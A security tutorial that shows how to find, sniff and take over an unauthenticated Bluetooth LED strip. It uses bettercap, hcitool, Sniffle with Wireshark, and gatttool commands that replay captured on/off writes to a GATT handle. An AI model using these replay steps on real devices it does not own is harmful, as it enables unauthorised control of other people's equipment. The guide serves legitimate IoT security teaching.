

## Objective
The goal of this guide is to show how an insecure Bluetooth Low Energy (BLE) device can be discovered, analyzed, and controlled by anyone nearby.
We will analyze a Bluetooth-controlled LED strip and demonstrate how to identify the command structure used by the mobile app and then inject our own packets to control the device without authorization.

This is a very common situation in low-cost IoT devices, where no authentication or encryption is implemented at the application layer.

## Reconnaissance
To work with Bluetooth devices, we usually combine software tools and sometimes dedicated hardware sniffers. In this guide we use:
- Bettercap
- HCITOOL
- [Sniffle](#sniffle).

### Bettercap
bettercap is a powerful, easily extensible and portable framework written in Go which aims to offer to security researchers, red teamers and reverse engineers an easy to use, all-in-one solution with all the features they might possibly need for performing reconnaissance and attacking WiFi networks, Bluetooth Low Energy devices, wireless HID devices, CAN-bus and IPv4/IPv6 networks.


**Command to start BLE reconnaissance**:

```console
sudo bettercap --eval="ble.recon on"
```

This will show nearby BLE devices, their MAC addresses, names, and basic information.

> Read more at [Bettercap Org](https://www.bettercap.org/project/introduction/)

### HCITool
Bluetooth Host Controller Interface Command Line Tool for for sending HCI commands on macOS and Linux


**To scan for BLE devices**:

```console
sudo hcitool lescan
```

This shows MAC addresses and device names of nearby peripherals.

### Sniffle
Sniffle is the world’s first open source sniffer for Bluetooth 5. Sniffle also backwards compatible with Bluetooth 4.x LE. It is runs on Texas Instruments CC26x2 and CC1352 microcontrollers, including the low cost CC26x2R and CC1352R Launchpad development boards. The host side software for Sniffle is written in Python, enabling easy extension and modification, and providing cross platform support. In addition to displaying packets on the terminal console in real time, the host side software can save captured traffic to a standard PCAP format compatible with the Ubertooth. This allows easy analysis with Wireshark and other open source tools.

Advantages of using Sniffle:

- You can see communication between phone and device
- You do not need to pair or connect yourself
- Captures can be saved as PCAP and analyzed in Wireshark
- Host software is written in Python and supports live capture and extcap integration with Wireshark.


```console
python3 scanner.py -s /dev/tty.usbmodem2123301
```

> Read more at [Sniffle Github](https://github.com/nccgroup/Sniffle)

## Enumeration

Once we find a device, the next step is to enumerate its GATT services and characteristics.

### Enumeration with Bettercap

After discovering the device MAC address:

```console
ble.enum <MAC>
```

This will list services and characteristics with their handles and permissions.


### Gatttool

gatttool is part of BlueZ and allows interactive GATT communication.

```console
sudo gatttool -b <MAC> -I
connect
primary
```

This shows primary services and allows manual read/write to characteristics.


### Sniffle
Sniffle does not actively connect to devices.
Instead, it passively captures traffic between the phone and the peripheral.
This means we cannot enumerate characteristics directly, but we can observe which handles are being written when the app is used.

This is often more useful, because we can see the real commands being sent by the official app.

## Sniffing the Connection
To sniff BLE communication, we can use:
- External hardware like Sniffle
- Or in some cases, rooted phones with special firmware

In this guide we use Sniffle with Wireshark via extcap.

**Steps**:
- Install Sniffle extcap support (see Sniffle repository)
- Open wireshark
- Select Sniffle as capture interface
- Enter the target device MAC address
- Start the capture

When the connection starts, Wireshark will show many packets, including *“Empty PDU”*.
These packets are not useful for application analysis.

You can filter them with:
`!(_ws.col.info == "Empty PDU")`

After filtering, you will mostly see **ATT** packets (Attribute Protocol), which means the device is being controlled using GATT writes.


If we can see `ATT Write Commands` in clear text, this usually means there is no application-level protection against MITM or command injection.

### Bluetooth connection
In many simple IoT devices, the flow looks like this:

`Phone App → BLE Connection → Write Characteristic → Device Executes Command`

There is no authentication, no challenge-response, and no encryption of the payload.



#### Packet Analysis
While turning the LED strip on and off, we observe several writes to handle `0x000e`.

Captured values:

| Index | Packet       | Value              |
| ----- | ------------ | ------------------ |
| 328   | WRITE 0x000e | 7e0404000000ff00ef |
| 459   | WRITE 0x000e | 7e0404f00001ff00ef |
| 460   | WRITE 0x000e | 7e0404f00001ff00ef |
| 529   | WRITE 0x000e | 7e0404000000ff00ef |

These correspond to the following actions in the app:
- Power off
- Power on
- Power off

The packet `359` and `460` it's same.

```yaml
Frame 460: Packet, 35 bytes on wire (280 bits), 35 bytes captured (280 bits) on interface sniffle, id 0
Bluetooth
Bluetooth Low Energy RF Info
Bluetooth Low Energy Link Layer
    Access Address: 0xaf9a8b67
    [Central Address: 41:60:5f:5d:a3:f6 (41:60:5f:5d:a3:f6)]
    [Peripheral Address: be:96:24:00:07:da (be:96:24:00:07:da)]
    Data Header
        .... ..10 = LLID: Start of an L2CAP message or a complete L2CAP message with no fragmentation (0x2)
        .... .1.. = Next Expected Sequence Number: 1 [ACK]
        .... 1... = Sequence Number: 1 [Retransmit]
        ...0 .... = More Data: False
        ..0. .... = CTE Info: Not Present
        00.. .... = RFU: 0
        Length: 16
    [L2CAP Index: 21]
    [Connection Parameters in: 256]
    CRC: 0xd88769
Bluetooth L2CAP Protocol
    Length: 12
    CID: Attribute Protocol (0x0004)
Bluetooth Attribute Protocol
    Opcode: Write Command (0x52)
    Handle: 0x000e (Unknown)
    Value: 7e0404f00001ff00ef
```
This means the controller did not receive an ACK, so the packet was sent again automatically by the BLE stack.

#### Packet Details
Because this is an RGB LED strip, the packet likely includes color and state information.

A possible protocol structure looks like:

| Offset | Description      | Value    |
| ------ | ---------------- | -------- |
| 0      | Start of Frame ? | 7e       |
| 1 - 5  | ??               | 04040000 |
| 6      | State (On/Off)   | 01       |
| 7 - 9  | ???              | ff00ef   |

This is not guaranteed, but it is enough to start fuzzing and modifying values to observe behavior.

## Exploitation

### Command Injection
Now that we know the characteristic handle and packet format, we can try to control the device ourselves.

**Using gatttool**:

```bash
# Interactive mode 
sudo gatttool -b be:96:24:00:07:da -I
connect
char-write-req 0x000e 7e0404000001ff00ef

# Single line
sudo gatttool -b be:96:24:00:07:da --char-write-req -a 0x000e -n 7e0404000000ff00ef
```


This confirms that:
- No authentication is required
- Any nearby device can connect
- Any client can control the LED strip

## Security
This demonstration shows a very common security problem in consumer IoT devices.

Even if Bluetooth pairing is enabled, many devices:
- Do not verify the identity of the client
- Do not protect command channels
- Do not implement application-layer authentication

As a result, any attacker within radio range can:
- Control the device
- Change its configuration
- Potentially exploit firmware bugs through malformed packets

For harmless devices like LED strips this is mostly a privacy or nuisance issue.
But in other devices such as door locks, alarms, medical devices, or industrial sensors, the impact can be much more serious.

Security must be designed into the protocol, not assumed to be provided by Bluetooth alone.
